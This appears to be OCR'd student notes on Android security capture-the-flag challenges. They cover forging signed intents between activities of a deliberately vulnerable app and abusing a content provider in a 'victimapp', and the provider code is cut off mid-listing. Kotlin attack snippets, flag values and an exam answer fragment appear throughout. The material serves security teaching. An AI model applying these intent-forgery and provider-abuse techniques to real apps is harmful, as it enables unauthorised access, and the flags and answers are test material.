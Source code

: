   ```kotlin
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        val intent = Intent("mobiotsec.intent.getflag")
        inspectIntent.launch(intent)
    }
  ```
  - got this: 
    > `flag => C: broken auth`
- noticing a pattern to pass between activities and build msg and auths
- copy that logic in our app and use it to create custom msg and sign for intent C
  - in particular:
  ```kotlin
    @Throws(Exception::class)
    fun buildIntent(src: String, dst: String, chain: String?): Intent? {
        //figured out this inspecting original app code
        val msg="Main-to-A/A-to-B/B-to-C"
        val sign: ByteArray? = sign(msg) //imported as well
        val i = Intent()
        //first parameter must be forced to that unlike in original app which takes is programmatically, this would lead to wrong package name here
        i.component = ComponentName("com.mobiotsec.nojumpstarts", "com.mobiotsec.nojumpstarts.$dst")
        i.putExtra("authmsg", msg)
        i.putExtra("authsign", sign)
        return i
    }
  ```
- so we can build the custom intent with the embedded msg and sign now:
```kotlin
val testC=buildIntent("Main", "C", null)
inspectIntent.launch(testC)
```


### Flag
> `FLAG{virtus_unita_fortior}`

---

## Exam example
- inspecting hte gimme the flag intent we get `FLAGer{2RvbmVfeW91X2hhdmVfcGFzc2VkX3RoZV9leGFtIX0=`
- we notice some kind of provider
- not a basic one, copy logic of Dbhelper and exploit it to analyze content
- we use it and found 69 records, one with author mobiotsec_exam
- sending that as firstFlagPart to the gimmetheflag intent returns us a string, whichd decoded b64 gets us the flag

### MyProvider
```kotlin
package com.example.maliciousapp

/* loaded from: classes.dex */
class MyProvider : ContentProvider() {
    private var db: SQLiteDatabase? = null

    companion object {
        const val COLUMN_AUTHOR = "author"
        const val COLUMN_JOKE = "joke"
        const val DATABASE_NAME = "JokeDB"
        private const val DATABASE_VERSION = 1
        const val PROVIDER_NAME = "com.example.victimapp.MyProvider"
        const val TABLE_NAME = "joke"
```